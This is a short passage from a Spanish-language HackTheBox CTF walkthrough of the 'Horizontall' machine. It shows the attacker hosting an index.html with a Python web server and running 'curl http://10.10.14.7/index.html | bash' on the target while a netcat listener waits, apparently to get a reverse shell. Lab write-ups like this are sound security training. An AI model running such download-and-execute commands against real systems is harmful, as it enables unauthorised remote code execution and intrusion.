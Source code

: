 ![Hackforce-2022-12-12-01-43-37.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-01-43-37.png)

Nos montamos el servidor con python para compartirnos el recurso index.html.

```bash
python3 -m http.server 80
```

 

Ahora hacemos un curl al recurso que compartimos, veremos que nos muestra el código del index.html si lo pipeamos con bash nos va a interpretar el código, antes de lanzarle el curl nos ponemos en escucha con netcat.

```bash
curl http://10.10.14.7/index.html | bash
```

![Hackforce-2022-12-12-01-45-04.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-01-45-04.png)
